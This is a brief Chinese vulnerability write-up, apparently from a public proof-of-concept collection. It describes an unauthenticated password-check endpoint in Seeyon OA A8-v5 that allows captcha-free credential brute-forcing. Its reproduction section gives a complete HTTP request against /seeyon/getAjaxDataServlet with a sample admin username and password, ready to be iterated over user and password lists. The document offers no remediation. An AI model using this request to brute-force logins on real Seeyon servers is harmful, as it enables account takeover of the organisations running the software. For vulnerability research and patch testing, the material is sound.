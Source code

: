 致远OA A8-v5 无视验证码撞库
===========================

一、漏洞简介
------------

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

二、漏洞影响
------------

致远OA A8-v5

三、复现过程
------------

POST穷举用户和密码代码如下

    GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

    Accept: */*

    Accept-Language: zh-cn

    Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

    requesttype: AJAX

    Content-Type: application/x-www-form-urlencoded

    Cookie: 

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

    Host: www.0-sec.org

    DNT: 1

    Proxy-Connection: Keep-Alive

![](./resource/致远OAA8-v5无视验证码撞库/media/rId24.shtml)
